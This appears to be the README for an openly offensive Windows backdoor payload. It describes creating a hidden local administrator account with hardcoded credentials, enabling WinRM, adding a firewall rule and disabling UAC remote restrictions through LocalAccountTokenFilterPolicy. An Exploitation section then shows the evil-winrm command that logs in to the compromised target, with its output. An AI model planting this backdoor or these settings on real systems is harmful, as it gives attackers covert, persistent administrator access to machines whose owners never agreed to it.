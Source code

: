 # "Microsoft Windows" WinRM Backdoor

- Title:         "Microsoft Windows" WinRM Backdoor
- Author:        TW-D
- Version:       1.0
- Target:        Microsoft Windows
- Category:      Remote Access

## Description

1) Adds a user account (RD_User:RD_P@ssW0rD).
2) Adds this local user to local administrator group.
3) Enables "Windows Remote Management" with default settings.
4) Adds a rule to the firewall.
5) Sets a value to "LocalAccountTokenFilterPolicy" to disable "UAC" remote restrictions.
6) Hides this user account.

## Exploitation

>
> The connection identifiers will be those defined by the values : **RD_User** and **RD_P@ssW0rD**.
>

```
hacker@hacker-computer:~$ evil-winrm --ip <TARGET> --user RD_User --password 'RD_P@ssW0rD'
*Evil-WinRM* PS C:\Users\RD_User\Documents> whoami
desktop-xxxxxxx\rd_user
```
